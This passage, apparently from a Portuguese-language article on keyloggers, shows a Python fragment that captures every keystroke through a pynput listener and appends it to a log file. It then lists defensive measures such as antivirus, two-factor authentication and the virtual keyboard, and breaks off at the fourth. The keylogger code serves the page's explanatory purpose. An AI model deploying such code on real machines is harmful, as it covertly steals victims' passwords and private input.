 ```python
		with open("log.txt", "a", encoding="utf-8") as f:
			f.write(key.char)
		except AttributeError:
			with open("log.txt", "a", encoding="utf-8") as f:
				if key == keyboard.Key.space:
					f.write(" ")
				elif key == keyboard.Key.enter:
					f.write("\n")
				elif key == keyboard.Key.tab:
					f.write("\t")
				elif key == keyboard.Key.backspace:
					f.write(" ")
				elif key == keyboard.Key.esc:
					f.write(" [ESC] ")
				elif key in IGNORAR:
					pass
				else:
					f.write(f"[{key}] ")
		
		  

with keyboard.Listener(on_press=on_press) as listener:
	listener.join()
```

## Medidas de defesa:

É essencial ==adotar uma abordagem em múltiplas camadas, combinando boas práticas de segurança com o uso de ferramentas especializadas. ==

##### Medidas de proteção e prevenção

**1. Usar um software de segurança robusto** 

- Instalar e manter atualizado um pacote de antivírus e antispyware confiável (como Kaspersky, Bitdefender ou Malwarebytes). Esses programas detectam e removem softwares maliciosos, incluindo keyloggers.
- Ativar o firewall para monitorar e controlar o tráfego de rede, bloqueando conexões suspeitas que poderiam ser usadas por keyloggers para enviar suas informações. 

**2. Adotar a autenticação de dois fatores (2FA)** 

- Ativar a autenticação de dois fatores em contas online. Mesmo que um keylogger roube sua senha, o invasor não conseguirá acessar a conta sem o segundo código de verificação, que geralmente é enviado para o celular. 

**3. Usar o teclado virtual** 

- Ao digitar informações sensíveis, como senhas e dados bancários, usar o teclado virtual do sistema operacional. Ele evita que o keylogger registre as teclas físicas que você pressionou, pois a entrada é feita diretamente pelo mouse. 

**4. Manter o software sempre atualizado** 
